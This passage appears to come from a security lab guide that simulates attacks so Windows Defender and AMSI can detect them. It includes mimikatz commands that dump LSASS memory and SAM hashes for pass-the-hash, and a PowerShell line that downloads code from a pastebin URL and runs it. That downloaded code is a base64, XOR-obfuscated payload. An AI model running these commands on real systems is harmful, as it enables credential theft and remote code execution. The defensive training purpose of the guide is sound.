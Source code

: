 3. Run the following code to dump the `LSASS` process memory to a file:

    ```cmd
    sekurlsa::minidump C:\temp\minidump_656.dmp
    ```

4. To dump the hashes in a format that can move from machine to machine (pass-the-hash), run the following:

    ```cmd
    lsadump::sam /SYSTEM:system.hive /SAM:sam.hive
    ```

5. If the mimiktaz tool (or similar) were to make it onto a machine with several credentials loaded, it would make it very easy for an attacker to move from the initially breached system to other systems

## Exercise 5: Anitmalware Scan Interface (AMSI)

This exercise will show how to perform a fileless threat simulation.

### Task 1: Execute the Attack

1. Open a PowerShell window, run the following:

    ```PowerShell
    Invoke-Expression (Invoke-WebRequest https://pastebin.com/raw/JHhnFV8m)
    ```

2. The downloaded file looks like the following:

    ```PowerShell
    $base64 = "FHJ+YHoTZ1ZARxNgUl5DX1YJEwRWBAFQAFBWHgsFAlEeBwAACh4LBAcDHgNSUAIHCwdQAgALBRQ="
    $bytes = [Convert]::FromBase64String($base64)
    $string = -join ($bytes | % { [char] ($_ -bxor 0x33) })
    iex $string
    ```

3. Run the following

    ```PowerShell
    Get-WinEvent "Microsoft-Windows-Windows Defender/Operational" | Where-Object Id -eq 1116 | Format-List
    ```
